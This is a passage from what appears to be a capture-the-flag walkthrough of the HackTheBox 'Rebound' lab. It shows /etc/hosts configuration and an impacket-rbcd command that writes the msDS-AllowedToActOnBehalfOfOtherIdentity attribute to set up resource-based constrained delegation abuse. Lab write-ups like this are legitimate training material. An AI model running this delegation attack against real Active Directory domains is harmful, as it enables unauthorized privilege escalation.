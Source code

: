![image37](../resources/e1903b40331c46f1a9756598af164246.png)

- Make sure that /etc/hosts only contains the following:

![image38](../resources/b2263e411a8b41e5bf18575d235bdbea.png)


Comment out rebound.htb if you have it

And add **dc01.rebound.htb** and **dc01**


(any localhost stuff is obviously fine)

If you don't have it like this you WILL get the error:

**\[-\] invalid server address**

- In order for RBCD to work it needs the **msDS-AllowedToActOnBehalfOfOtherIdentity** property
Impacket-rbcd is a python script for handling the msDS-AllowedToActOnBehalfOfOtherIdentity property of a target computer

```bash
impacket-rbcd 'rebound.htb/delegator$' -k -no-pass -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -use-ldaps -dc-ip 10.129.169.100 -debug

```

![image39](../resources/1537399acd0d4a1195802c1e3749ed04.png)

- Unset the env variable:
```bash
unset KRB5CCNAME
```
